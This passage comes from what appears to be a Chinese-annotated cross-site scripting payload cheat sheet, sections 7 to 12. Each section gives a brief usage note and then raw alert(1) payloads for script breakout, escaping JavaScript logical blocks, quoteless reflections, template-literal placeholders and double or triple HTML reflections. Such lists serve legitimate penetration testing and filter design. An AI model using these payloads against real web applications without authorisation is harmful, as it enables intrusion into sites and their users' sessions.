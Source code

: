 ##### 7.Javascript Injection – Script Breakout (javascript注入-脚本突破)

```
当输入的payload，被插入到javascript标签块中的任何位置时使用。

</script><svg οnlοad=alert(1)>
```

##### 8.Javascript Injection - Logical Block (javscript注入-逻辑代码块)

```
当输入的payload，被插入到javascript标签块时，使用第一个或第二个payload，该值如果位于字符串分隔值或在单个逻辑代码块（如函数或条件（if，else，等等中）。 如果需要引用转义反斜杠，请使用第3个payload。

'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```

##### 9.Javascript Injection - Quoteless (javscript注入-无变量名)

```
当输入的payload在同一行javascript代码中有多次反射时使用。

第一个payload适用于简单的javascript变量，第二个payload适用于非嵌套的javascript对象。 <br>

/alert(1)//\
/alert(1)}//\
```

##### 10.Javascript Context - Placeholder Injection in Template Literal (javascript注入-模板文字中的占位符注入)

```
当输入的payload被插入到反引号（``）分隔的字符串内或模板引擎中时使用。<br>

${alert(1)}
```

##### 11.Multi Reflection HTML Injection - Double Reflection (Single Input) (HTML注入多重反射-双重反射（单输入）)

```
payload用于利用同一页面上的多次反射。<br>

'οnlοad=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

##### 12.Multi Reflection i HTML Injection - Triple Reflection (Single Input) (HTML注入多重反射-三次反射（单输入）)

```
payload用于利用同一页面上的多次反射。<br>

*/alert(1)">'οnlοad="/*<svg/1='
`-alert(1)">'οnlοad="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```
